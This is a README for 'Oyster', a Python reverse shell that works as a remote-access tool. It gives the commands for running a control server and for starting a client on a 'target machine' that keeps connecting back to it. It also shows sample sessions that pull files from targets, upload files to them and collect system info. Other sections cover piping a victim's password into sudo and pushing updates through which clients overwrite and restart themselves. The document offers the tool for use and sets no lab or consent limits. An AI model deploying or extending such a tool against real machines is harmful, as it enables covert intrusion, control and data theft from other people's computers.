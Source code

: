```python
 .oOOOo.
.O     o.
O       o               O
o       O              oOo
O       o O   o .oOo    o   .oOo. `OoOo.
o       O o   O `Ooo.   O   OooO'  o
`o     O' O   o     O   o   O      O
 `OoooO'  `OoOO `OoO'   `oO `OoO'  o
              o
           OoO'
```

Oyster is a lightweight multi-threaded reverse shell written in python 
3.5.  The server can push updates to the clients, and the clients will
overwrite/restart themselves.

I wrote this after finding an example reverse shell on the thenewboston 
youtube channel.  I saw some things I wanted to improve, so that's what 
I attempted to do.  The clients will continuously try to make a 
connection with the server.

## Control Server

Start `server.py` from the command line.  Here are the keyword arguments 
used for `server.py`:

```
host        - Host IP address.
port        - Host port.
recv_size   - Buffer size for receiving and sending data.
listen      - Maximum number of queued connections.
bind_retry  - How many times to retry binding the socket to the port.
```

Example:

All of the arguments provided below are the defaults except `host`, 
which is a blank string as the default.

```
python3 server.py host=0.0.0.0 port=6667 recv_size=1024 listen=10 bind_retry=5
```

## Oyster Shell

The Oyster Shell is the main interface.  It's what you use to select 
which clients you would like to send commands to, and push updates to 
the `client.py` file on all of the connected target machines.  You know
you're working with the Oyster Shell if you see the following prompt:

```
Oyster> 
```

Commands for the `Oyster` shell are:

```
list                        -   List the connected clients.
    
update all                  -   Update all the connected clients using 
                                `update.py`.  Clients will overwrite 
                                themselves and reboot themselves.
                                
use {target ip/index}       -   Use a target connection.  {target ip/index} 
                                can be found by running the `list` command.

upload                      -   Upload a file to a client.
                                
quit                        -   Shut everything down.
```

### Oyster Shell's `use` Command

The `use` command will drop you into a client shell.  This is used to 
navigate and manipulate the client's computer.  Once executed, the `use` 
command will drop you into a shell for the given connection[ip address 
or index in list].  You'll know you're in a client shell when you see an
ip address along with a directory structure with a `> ` at the
end:

```
<10.0.0.8> /Some/Directory> 
```


To get out of the connection's shell, run the `quit` command.  This will 
take you back to the `Oyster` shell.

Example:

```
Oyster> use 10.0.0.8
<10.0.0.8> /Users/SomeUser/Remote/Computer/Where/Client.py/Is/Stashed> quit
Oyster> 
```

### Client Shell Commands

There are other client shell commands besides `quit`:

```
get "{target filepath}" "{local filepath}"      -   Download a file from 
                                                    the target.

upload {local filepath} {target filepath}       -   Upload a file to the
                                                    target.

sysinfo                                         -   Get system info from
                                                    the target.
```

Example:

```
Oyster> use 10.0.0.8
<10.0.0.8> /Users/SomeUser/Where/The/Client/Is/Stashed> get ~/Music/song.m4a song.m4a
< File Stashed: song.m4a >
<10.0.0.8> /Users/SomeUser/Where/The/Client/Is/Stashed> 
```

### Using `sudo` with connected clients

`echo` the password and pipe it into the `sudo` command with the `-S`
flag.

```
echo "ClientsPassword" | sudo -S chown $USER:admin /usr/local/include
```

You may need to add a newline character to the end of your password.

```
echo "ClientsPassword\n" | sudo -S chown $USER:admin /usr/local/include
```

Check out the `man` pages for `sudo` on the client if this doesn't work.
I'm not sure how much the `-S` flag differs between unix flavours.

## Client

Start `client.py` on the target machine.  The client should keep itself
up and running, unless it errors out for some odd reason.  When updates
are pushed to the client from the server, the client will overwrite
and restart itself.  It's up to the user to figure out how to get this 
to run on startup or whatever.  Here are startup arguments.

```
host
port
recv_size
```

Example:

```
python3 client.py host=10.0.0.215 port=6667 recv_size=1024
```
